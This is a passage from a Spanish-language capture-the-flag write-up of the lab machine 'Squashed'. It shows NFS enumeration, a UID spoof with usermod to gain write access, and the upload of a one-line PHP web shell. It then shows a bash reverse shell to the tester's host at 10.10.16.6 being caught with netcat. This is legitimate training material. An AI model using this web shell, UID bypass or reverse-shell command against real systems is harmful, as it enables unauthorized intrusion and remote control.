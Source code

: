 Podemos ver que hay un archivo de keepass, no pude romperlo porque no pude extraer el hash del archivo debido a la versión.

```bash
❯ keepass2john Passwords.kdbx > hash
! Passwords.kdbx : File version '40000' is currently not supported!
```

### Enumeration of NFS

Al intentar acceder a la montura de la web no podía acceder. Lo que hice fué crear un nuevo usuario y asignarle el UID necesario para acceder.

```bash
❯ ls -la
drwxr-xr-x root root      50 B  Fri Mar  3 13:26:04 2023  .
drwxr-xr-x root root     342 B  Mon Jan 30 17:52:52 2023  ..
drwxr-xr-x root root       0 B  Sat Feb 18 20:31:08 2023  cdrom
drwxr-xr-x test bly      4.0 KB Thu Mar  2 18:45:06 2023  ross
drwxr-xr-- 2017 www-data 4.0 KB Fri Mar  3 13:30:01 2023  web
drwxr-xr-x root root       0 B  Sat Sep 11 20:01:11 2021  Windows_Mount

❯ usermod -u 2017 test
```

### Upload Web Shell

Una vez dentro me di cuenta que el contenido era el mismo que la web que podía ver por el navegador, por ese motivo intenté subir una revshell en php. Dado que el UID era valido podía escribir en el directorio.

```bash
$cat shell.php 
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```

Si  tratamos de ejecutar algun comando, podemos ver que accedemos al archivo php y es funcional.

```bash
❯ curl -G "http://10.10.11.191/shell.php" --data-urlencode "cmd=id" ; echo
<pre>uid=2017(alex) gid=2017(alex) groups=2017(alex)
</pre>
```

Ahora me intenté establecer una revshell.

```bash
❯ curl -G "http://10.10.11.191/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'" ; echo
```

Si miramos nuestro listener podemos ver que tenemos shell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.11.191: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.191] 33718
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$
```
